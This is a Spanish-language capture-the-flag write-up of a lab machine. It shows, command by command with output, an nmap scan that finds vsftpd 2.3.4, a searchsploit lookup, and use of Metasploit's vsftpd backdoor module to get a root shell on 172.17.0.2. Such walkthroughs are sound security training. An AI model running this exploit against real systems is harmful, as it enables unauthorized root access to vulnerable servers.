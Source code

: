 # Firsthacking
**Herramientas y recursos usados**
- nmap
- searchsploit
- msfconsole

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN FirstHacking`

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo
```
PORT STATE SERVICE REASON VERSION
21/tcp open ftp syn-ack ttl 64 vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix
```
El único puerto abierto es el 21, que corresponde al servicio FTP.
Tenemos un servicio vsftpd con versión 2.3.4, podemos buscar alguna vulnerabilidad existente para este servicio con searchsploit.  

`searchsploit vsftpd 2.3.4`  
```
Exploit Title                                           Path
-----------------------------------------------------------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)   unix/remote/17491.rb
-----------------------------------------------------------------------------------
```
Encontramos 2 exploits, uno con extensión .rb que podemos utilizar a través de Metasploit.  
Iniciamos Metasploit y buscamos de nuevo la vulnerabilidad encontrada anteriormente con el comando `search`.
```
msf6 > search vsftp 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```
Ahora utilizaremos el comando `use` para seleccionar este exploit.
```
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```
Con el comando `show options` podemos ver las informaciones necesarias para ejecutar el exploit.
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```
En este caso solo hará falta insertar esta información:
- RPORT -> Puerto 21 (FTP) de la máquina víctima (que ya está cumplimentado)
- RHOSTS -> Dirección IP de la máquina víctima (172.17.0.2)

Para ello usaremos el comando `set`  
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```
Vemos si se han aplicado los cambios insertados:
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.17.0.2       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```
Por último, ejecutaremos el exploit con el comando `run`.
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
```
```
[*] 172.17.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.17.0.2:21 - USER: 331 Please specify the password.
[+] 172.17.0.2:21 - Backdoor service has been spawned, handling...
[+] 172.17.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 2 opened (172.17.0.1:38103 -> 172.17.0.2:6200) at 2024-06-16 15:59:31 -0400

id
uid=0(root) gid=0(root) groups=0(root)
```
Listo! Ya somos root!
